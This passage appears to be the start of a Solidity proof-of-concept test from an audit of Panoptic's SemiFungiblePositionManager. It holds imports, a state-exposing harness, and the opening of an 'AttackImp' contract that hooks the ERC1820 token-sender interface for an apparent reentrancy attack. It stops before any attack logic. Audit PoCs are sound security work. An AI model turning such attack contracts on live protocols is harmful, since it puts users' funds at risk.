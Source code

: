 >import {Math} from "@libraries/Math.sol";
>import {PanopticMath} from "@libraries/PanopticMath.sol";
>import {CallbackLib} from "@libraries/CallbackLib.sol";
>import {TokenId} from "@types/TokenId.sol";
>import {LeftRight} from "@types/LeftRight.sol";
>import {IERC20Partial} from "@testUtils/IERC20Partial.sol";
>import {TickMath} from "v3-core/libraries/TickMath.sol";
>import {FullMath} from "v3-core/libraries/FullMath.sol";
>import {FixedPoint128} from "v3-core/libraries/FixedPoint128.sol";
>import {IUniswapV3Pool} from "v3-core/interfaces/IUniswapV3Pool.sol";
>import {IUniswapV3Factory} from "v3-core/interfaces/IUniswapV3Factory.sol";
>import {LiquidityAmounts} from "v3-periphery/libraries/LiquidityAmounts.sol";
>import {SqrtPriceMath} from "v3-core/libraries/SqrtPriceMath.sol";
>import {PoolAddress} from "v3-periphery/libraries/PoolAddress.sol";
>import {PositionKey} from "v3-periphery/libraries/PositionKey.sol";
>import {ISwapRouter} from "v3-periphery/interfaces/ISwapRouter.sol";
>import {SemiFungiblePositionManager} from "@contracts/SemiFungiblePositionManager.sol";
>import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
>import {PositionUtils} from "../testUtils/PositionUtils.sol";
>import {UniPoolPriceMock} from "../testUtils/PriceMocks.sol";
>import {ReenterMint, ReenterBurn} from "../testUtils/ReentrancyMocks.sol";
>
>import {ERC1820Implementer} from "openzeppelin-contracts/contracts/utils/introspection/ERC1820Implementer.sol";
>import {IERC1820Registry} from "openzeppelin-contracts/contracts/utils/introspection/IERC1820Registry.sol";
>import {ERC1155Receiver} from  "openzeppelin-contracts/contracts/token/ERC1155/utils/ERC1155Receiver.sol";
>
>import "forge-std/console2.sol";
>
>contract SemiFungiblePositionManagerHarness is SemiFungiblePositionManager {
>    constructor(IUniswapV3Factory _factory) SemiFungiblePositionManager(_factory) {}
>
>    function poolContext(uint64 poolId) public view returns (PoolAddressAndLock memory) {
>        return s_poolContext[poolId];
>    }
>
>    function addrToPoolId(address pool) public view returns (uint256) {
>        return s_AddrToPoolIdData[pool];
>    }
>}
>
>contract AttackImp is ERC1820Implementer{
>    
>    bytes32 constant private TOKENS_SENDER_INTERFACE_HASH =
>        0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895;
>        
>    IERC1820Registry _ERC1820_REGISTRY = IERC1820Registry(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24);
>
>
>    SemiFungiblePositionManagerHarness sfpm;
>    ISwapRouter router = ISwapRouter(0xE592427A0AEce92De3Edee1F18E0157C05861564);
>
>    address token0;
>    address token1;
>    uint256 tokenId;
>    uint128 positionSize;
>    address owner;
>
>    constructor(address _token0, address _token1, address _sfpm) {    
>        owner = msg.sender;
>        sfpm = SemiFungiblePositionManagerHarness(_sfpm);